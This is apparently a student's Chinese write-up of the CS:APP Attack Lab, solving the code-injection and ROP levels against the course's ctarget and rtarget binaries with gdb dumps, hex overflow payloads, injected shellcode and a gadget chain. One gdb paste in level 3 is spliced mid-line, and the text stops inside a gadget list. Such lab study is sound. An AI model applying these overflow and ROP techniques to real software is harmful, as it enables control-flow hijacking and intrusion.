


# Attack Lab

CSAPP:http://csapp.cs.cmu.edu/3e/labs.html

[*Attack Lab*](http://csapp.cs.cmu.edu/im/labs/attacklab.tar) ***[Updated 1/11/16]*** ([README](http://csapp.cs.cmu.edu/3e/README-attacklab), [Writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf), [Release Notes](http://csapp.cs.cmu.edu/3e/attacklab-release.html), [Self-Study Handout](http://csapp.cs.cmu.edu/3e/target1.tar))


参考：

- [III Attack Lab - 漏洞是如何被攻击的](http://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
- [Exely-attach lab笔记](https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md)


做实验前须阅读http://csapp.cs.cmu.edu/3e/README-attacklab以及实验说明[attacklab.pdf](http://csapp.cs.cmu.edu/3e/attacklab.pdf)


### Part 1 代码注入攻击

#### level 1

这一题暂时不需要注入新的代码，只需要让程序重定向调用某个方法即可，让getbuf函数返回的时候执行 touch1函数，而不是原有的test函数

使用 objdump -d 反汇编 ctarget ，观察汇编代码

```sh
objdump -d ctarget > ctarget.txt 
#或者 objdump -d ctarget | less
```

getbuf汇编代码如下

```assembly
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq   
  4017be:       90                      nop
  4017bf:       90                      nop

```


可以看到将栈指针`%rsp`，增加了`0x28`（也就是40个字节），再往上8个字节（64位机器）就是getbuf的返回地址，利用栈溢出将这个返回地址修改掉。

touch1 的汇编代码如下

```assembly
00000000004017c0 <touch1>:
  4017c0:       48 83 ec 08             sub    $0x8,%rsp
  4017c4:       c7 05 0e 2d 20 00 01    movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:       00 00 00 
  4017ce:       bf c5 30 40 00          mov    $0x4030c5,%edi
  4017d3:       e8 e8 f4 ff ff          callq  400cc0 <puts@plt>
  4017d8:       bf 01 00 00 00          mov    $0x1,%edi
  4017dd:       e8 ab 04 00 00          callq  401c8d <validate>
  4017e2:       bf 00 00 00 00          mov    $0x0,%edi
  4017e7:       e8 54 f6 ff ff          callq  400e40 <exit@plt>

```


touch1函数的地址为：`0x00000000004017c0`，所以可输入的字符串如下（注意用小端法）

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```


可以将其存储为 so1.txt 文件，再使用 hex2raw 程序转为字节码，使用ctarget 程序执行并验证

```sh
./hex2raw < so1.txt > so1r.txt

./ctarget -q -i so1r.txt 
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```


#### level 2

这一题需要跳转到touch2函数，还需要传入参数

```c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

查找touch2函数的起始地址

```assembly
00000000004017ec <touch2>
```


需要把cookie传入到touch2函数，提示使用`%rdi`寄存器存储cookie值，将touch2函数起始地址压入栈，并使用ret指令跳转返回

```assembly
mov $0x59b997fa , %rdi 
push $0x004017ec
ret
```

写入so2.s文件中，使用gcc编译生成so2.o文件，并使用objdump反汇编

```sh
gcc -c so2.s
objdump -d so2.o > so2.d
so2.o：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq 

```

要知道缓存区的地址，还需要调试ctarget ,使用gdb

```sh
gdb ctarget 
...
(gdb) b getbuf  #设置断点
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) set args -q  #设置运行时参数
(gdb) r
Starting program: /home/l/csapp/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12	buf.c: 没有那个文件或目录.
(gdb) si 3
0x00000000004017af	14	in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp #开辟栈空间
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
=> 0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
(gdb) info r
rax            0x0	0
rbx            0x55586000	1431855104
rcx            0xc	12
rdx            0x7ffff7dd3780	140737351858048
rsi            0xc	12
rdi            0x5561dc78	1432476792
rbp            0x55685fe8	0x55685fe8
rsp            0x5561dc78	0x5561dc78
r8             0x7ffff7fdb700	140737353987840
r9             0xc	12
r10            0x4032b4	4207284
r11            0x7ffff7b7fa70	140737349417584
r12            0x2	2
r13            0x0	0
r14            0x0	0
r15            0x0	0
rip            0x4017af	0x4017af <getbuf+7>
eflags         0x216	[ PF AF IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0

```

注意`rsp            0x5561dc78	0x5561dc78`，所以缓存区的地址为`0x5561dc78`

可输入的字符串如下，可存储为so2.txt

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

测试

```sh
./hex2raw < so2.txt > so2r.txt
./ctarget -q -i so2r.txt 
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```


#### level 3

这一题也需要进行代码注入攻击，但是传入的参数是个字符串，还是以传入地址的方式进行，且字符串以0结尾，调用hexmatch和strncmp函数会把数据存入栈中，也就是会使用到getbuf的缓存区，

cookie的值为 ：`0x59b997fa`，转换成AscII码就是 `35 39 62 39 39 37 66 61 00`(注意是以0结尾)

要跳转到touch3函数，先看一下touch3

```c
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

touch3函数对应的汇编代码为：

```assembly
00000000004018fa <touch3>:
  4018fa:       53                      push   %rbx
  4018fb:       48 89 fb                mov    %rdi,%rbx
  4018fe:       c7 05 d4 2b 20 00 03    movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:       00 00 00 
  401908:       48 89 fe                mov    %rdi,%rsi
  40190b:       8b 3d d3 2b 20 00       mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:       e8 36 ff ff ff          callq  40184c <hexmatch>
  401916:       85 c0                   test   %eax,%eax
  401918:       74 23                   je     40193d <touch3+0x43>
  40191a:       48 89 da                mov    %rbx,%rdx
  40191d:       be 38 31 40 00          mov    $0x403138,%esi
  401922:       bf 01 00 00 00          mov    $0x1,%edi
  401927:       b8 00 00 00 00          mov    $0x0,%eax
  40192c:       e8 bf f4 ff ff          callq  400df0 <__printf_chk@plt>
  401931:       bf 03 00 00 00          mov    $0x3,%edi
  401936:       e8 52 03 00 00          callq  401c8d <validate>
  40193b:       eb 21                   jmp    40195e <touch3+0x64>
  40193d:       48 89 da                mov    %rbx,%rdx
  401940:       be 60 31 40 00          mov    $0x403160,%esi
  401945:       bf 01 00 00 00          mov    $0x1,%edi
  40194a:       b8 00 00 00 00          mov    $0x0,%eax
  40194f:       e8 9c f4 ff ff          callq  400df0 <__printf_chk@
plt>
  401954:       bf 03 00 00 00          mov    $0x3,%edi
  401959:       e8 f1 03 00 00          callq  401d4f <fail>
  40195e:       bf 00 00 00 00          mov    $0x0,%edi
  401963:       e8 d8 f4 ff ff          callq  400e40 <exit@plt>

```


到底调用hexmatch函数会占用多大缓存区，需要实际调试看一下

利用缓存区溢出，将跳转地址改为touch3函数，即是0x004018fa处。

```
#testso3.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
fa 18 40 00 00 00 00 00
```

开始调试

```sh
gdb ctarget 
...
(gdb) disas
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:	push   %rbx
   0x00000000004018fb <+1>:	mov    %rdi,%rbx
   0x(gdb) disas
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:	push   %rbx
   0x00000000004018fb <+1>:	mov    %rdi,%rbx
   0x00000000004018fe <+4>:	movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:	mov    %rdi,%rsi
=> 0x000000000040190b <+17>:	mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:	callq  0x40184c <hexmatch>
   0x0000000000401916 <+28>:	test   %eax,%eax
   0x0000000000401918 <+30>:	je     0x40193d <touch3+67>
   0x000000000040191a <+32>:	mov    %rbx,%rdx
   0x000000000040191d <+35>:	mov    $0x403138,%esi
   0x0000000000401922 <+40>:	mov    $0x1,%edi
   0x0000000000401927 <+45>:	mov    $0x0,%eax
   0x000000000040192c <+50>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:	mov    $0x3,%edi
   0x0000000000401936 <+60>:	callq  0x401c8d <validate>
   0x000000000040193b <+65>:	jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:	mov    %rbx,%rdx
   0x0000000000401940 <+70>:	mov    $0x403160,%esi
   0x0000000000401945 <+75>:	mov    $0x1,%edi
   0x000000000040194a <+80>:	mov    $0x0,%eax
   0x000000000040194f <+85>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:	mov    $0x3,%edi
   0x0000000000401959 <+95>:	callq  0x401d4f <fail>
   0x000000000040195e <+100>:	mov    $0x0,%edi
   0x0000000000401963 <+105>:	callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) x/10w 0x5561dc78
0x5561dc78:	U""
0x5561dc7c:	U""
0x5561dc80:	U""
0x5561dc84:	U""
0x5561dc88:	U""
0x5561dc8c:	U""
0x5561dc90:	U""
0x5561dc94:	U""
0x5561dc98:	U""
0x5561dc9c:	U""
(gdb) c
Continuing.

Breakpoint 3, 0x0000000000401916 in touch3 (
    sval=0x606010 "\210$\255", <incomplete sequence \373>)
    at visible.c:73
73	in visible.c
(gdb) x/10w 0x5561dc78
0x5561dc78:	U"\xe0c6d000\xd3e6b64b\x606010"
0x5561dc88:	U"\x55685fe8"
0x5561dc90:	U"\004"
0x5561dc98:	U"\x401916"
0x5561dca0:	U"\x55586000"
0x5561dca8:	U""
0x5561dcac:	U""
0x5561dcb0:	U"\x401f24"
0x5561dcb8:	U""
0x5561dcbc:	U""
00000000004018fe <+4>:	movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:	mov    %rdi,%rsi
=> 0x000000000040190b <+17>:	mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:	callq  0x40184c <hexmatch>
   0x0000000000401916 <+28>:	test   %eax,%eax
   0x0000000000401918 <+30>:	je     0x40193d <touch3+67>
   0x000000000040191a <+32>:	mov    %rbx,%rdx
   0x000000000040191d <+35>:	mov    $0x403138,%esi
   0x0000000000401922 <+40>:	mov    $0x1,%edi
   0x0000000000401927 <+45>:	mov    $0x0,%eax
   0x000000000040192c <+50>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:	mov    $0x3,%edi
   0x0000000000401936 <+60>:	callq  0x401c8d <validate>
   0x000000000040193b <+65>:	jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:	mov    %rbx,%rdx
   0x0000000000401940 <+70>:	mov    $0x403160,%esi
   0x0000000000401945 <+75>:	mov    $0x1,%edi
   0x000000000040194a <+80>:	mov    $0x0,%eax
   0x000000000040194f <+85>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:	mov    $0x3,%edi
   0x0000000000401959 <+95>:	callq  0x401d4f <fail>
   0x000000000040195e <+100>:	mov    $0x0,%edi
   0x0000000000401963 <+105>:	callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) x/10w 0x5561dc78
0x5561dc78:	U""
0x5561dc7c:	U""
0x5561dc80:	U""
0x5561dc84:	U""
0x5561dc88:	U""
0x5561dc8c:	U""
0x5561dc90:	U"\x5561dc78"
0x5561dc98:	U"\x39623935\x61663739\x55586000"
0x5561dca8:	U""
0x5561dcac:	U""
(gdb) info r
rax            0x1	1
rbx            0x606010	6316048
rcx            0x8e	142
rdx            0x6060f0	6316272
rsi            0x606010	6316048
rdi            0x606010	6316048
rbp            0x55685fe8	0x55685fe8
rsp            0x5561dca0	0x5561dca0
r8             0x7ffff7fdb700	140737353987840
r9             0x0	0
r10            0x814	2068
r11            0x246	582
r12            0x4	4
r13            0x0	0
r14            0x0	0
r15            0x0	0
rip            0x40190b	0x40190b <touch3+17>
eflags         0x216	[ PF AF IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
(gdb) c
Continuing.

Breakpoint 4, 0x0000000000401916 in touch3 (
    sval=0x606010 "\210$\255", <incomplete sequence \373>)
    at visible.c:73
73	in visible.c
(gdb) x/10w 0x5561dc78
0x5561dc78:	U"\xaa64bc00\xab0a916f\x606010"
0x5561dc88:	U"\x55685fe8"
0x5561dc90:	U"\004"
0x5561dc98:	U"\x401916"
0x5561dca0:	U"\x55586000"
0x5561dca8:	U""
0x5561dcac:	U""
0x5561dcb0:	U"\x401f24"
0x5561dcb8:	U""
0x5561dcbc:	U""
```


可以看到整个缓存区都是不安全的 ，在调用hexmatch函数后，缓存区都被覆盖掉了，需要重新找个地址存放字符串数据，观察`0x5561dca8`该地址在调用hexmatch函数前后都未被改写,所以可以将字符串存放到该地址处。当然`0x5561dcb8`也可以。

同level2一样，写一个汇编文件,存为so3.s

```assembly
mov $0x5561dca8 , %rdi #字符串存储的地址
push $0x004018fa
ret
```

`gcc -c so3.s`,再使用 `objdump`反汇编得到字节码

```sh
so3.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq  
```


完善so3.txt，与level2一样注入代码，需要在栈空间填写指令字节码，并且填充到40字节，后续加上8字节跳转地址，使其跳转到缓存区，继续执行代码，还有转换后的cookie字符串码，用作参数传递。

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```


测试

```sh
./hex2raw < so3.txt > so3r.txt 
./ctarget -q -i so3r.txt 
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 

```


### Part 2 Return-Oriented Programming

rtarget与ctarget相比更难被攻击，因为栈的位置是随机的，并且栈里是不可执行的，一旦执行则会出现段错误，所以不能把指令代码存放到栈里来执行。

那么还能攻击这种程序吗？当然是可以的，使用程序代码中已有的指令（这些指令后面都有ret），来相互组合成一串指令，来完成攻击操作。又称之为ROP策略。

#### level 2

与Part1 中的level2目的相同，但方式不同。

一个大概思路，把cookie的值存到%rdi寄存器中，调用touch2函数

```assembly
#一些可能有用的汇编指令代码
0000000000401994 <start_farm>:
  401994:   b8 01 00 00 00          mov    $0x1,%eax
  401999:   c3                      retq

000000000040199a <getval_142>:
  40199a:   b8 fb 78 90 90          mov    $0x909078fb,%eax
  40199f:   c3                      retq

00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq

00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3                      retq

00000000004019ae <setval_237>:
  4019ae:   c7 07 48 89 c7 c7       movl   $0xc7c78948,(%rdi)
  4019b4:   c3                      retq

00000000004019b5 <setval_424>:
  4019b5:   c7 07 54 c2 58 92       movl   $0x9258c254,(%rdi)
  4019bb:   c3                      retq

00000000004019bc <setval_470>:
  4019bc:   c7 07 63 48 8d c7       movl   $0xc78d4863,(%rdi)
  4019c2:   c3                      retq

00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq

00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq

00000000004019d0 <mid_farm>:
  4019d0:   b8 01 00 00 00          mov    $0x1,%eax
  4019d5:   c3                      retq

```


若是要插入数值，就需要`popq`指令，将数值存入到相应的寄存器中，查看实验说明文档提供的表格，字节码在`58~5f`之间，由于`ROP`策略，后续一定要有一个`ret`指令，对应字节码是`c3`，`nop`指令对应字节码是`90`

参考实验手册http://csapp.cs.cmu.edu/3e/attacklab.pdf

可以找到在`addval_219`函数中，有满足条件的字节码。

```assembly
00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3                      retq
```


即是 `58 90 c3` ，对应的内存地址为：`0x4019ab`,可以将栈中的值放到`%rax`寄存器中

那如何将%rax中值存入%rdi中呢，因为touch2函数，调用的参数就是%rdi寄存器中的，

查表可知，对应的字节码为 `48 89 c7`,继续在汇编代码里查找，筛选后发现有两个满足条件的，

```assembly
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
# 48 89 c7 对应地址为 0x4019a2

00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq
#对应地址为: 0x4019c5
```


可以拼成一个完整的ROP程序，

```
0x4019ab    #popq (将栈上的值存入%rax中)

#cookie值:
0x59b997fa

0x4019a2    #%rdi = %rax (有两个地址都可用)
0x4019c5

#跳转到touch2
0x004017ec
```


so4.txt

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```


测试

```sh
 ./hex2raw < so4.txt > so4r.txt
 ./rtarget -q -i so4r.txt 
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 

```


#### level 3

同part1中level3一样，需要将cookie转换成ascii码，存放到内存中某个位置，然后这个地址放到%rdi中，再跳转到touch3。

cookie的值为 ：`0x59b997fa`，转换成AscII码就是 `35 39 62 39 39 37 66 61 00`(注意是以0结尾)

touch3函数地址：`0x4018fa`

建议使用movl指令，标准答案中至少需要8个gadgets

一个最简单的思路？找个地址存放字符串，把这个地址赋给%rdi寄存器，再调用touch3函数？显然是不行的。

```
48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
68 fa 18 40 00       	pushq  $0x4018fa
c3                   	retq  
```

非常可惜，在rtarget的汇编代码中，找不到符合条件的指令编码。

```assembly
#一些有用的代码
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	retq   

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   

00000000004019e1 <setval_296>:
  4019e1:	c7 07 99 d1 90 90    	movl   $0x9090d199,(%rdi)
  4019e7:	c3                   	retq   

00000000004019e8 <addval_113>:
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq   

00000000004019ef <addval_490>:
  4019ef:	8d 87 8d d1 20 db    	lea    -0x24df2e73(%rdi),%eax
  4019f5:	c3                   	retq   

00000000004019f6 <getval_226>:
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	retq   

00000000004019fc <setval_384>:
  4019fc:	c7 07 81 d1 84 c0    	movl   $0xc084d181,(%rdi)
  401a02:	c3                   	retq   

0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

0000000000401a0a <setval_276>:
  401a0a:	c7 07 88 c2 08 c9    	movl   $0xc908c288,(%rdi)
  401a10:	c3                   	retq   

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   

0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq   

0000000000401a1e <addval_479>:
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	retq   

0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq   

0000000000401a2c <setval_248>:
  401a2c:	c7 07 81 ce 08 db    	movl   $0xdb08ce81,(%rdi)
  401a32:	c3                   	retq   

0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq   

0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq   

0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq   

0000000000401a4e <getval_272>:
  401a4e:	b8 99 d1 08 d2       	mov    $0xd208d199,%eax
  401a53:	c3                   	retq   

0000000000401a54 <getval_155>:
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	retq   

0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq   

0000000000401a61 <addval_404>:
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	retq   

0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq   

0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq   

0000000000401a75 <setval_328>:
  401a75:	c7 07 81 c2 38 d2    	movl   $0xd238c281,(%rdi)
  401a7b:	c3                   	retq   

0000000000401a7c <setval_450>:
  401a7c:	c7 07 09 ce 08 c9    	movl   $0xc908ce09,(%rdi)
  401a82:	c3                   	retq   

0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq   

0000000000401a8a <addval_124>:
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	retq   

0000000000401a91 <getval_169>:
  401a91:	b8 88 ce 20 c0       	mov    $0xc020ce88,%eax
  401a96:	c3                   	retq   

0000000000401a97 <setval_181>:
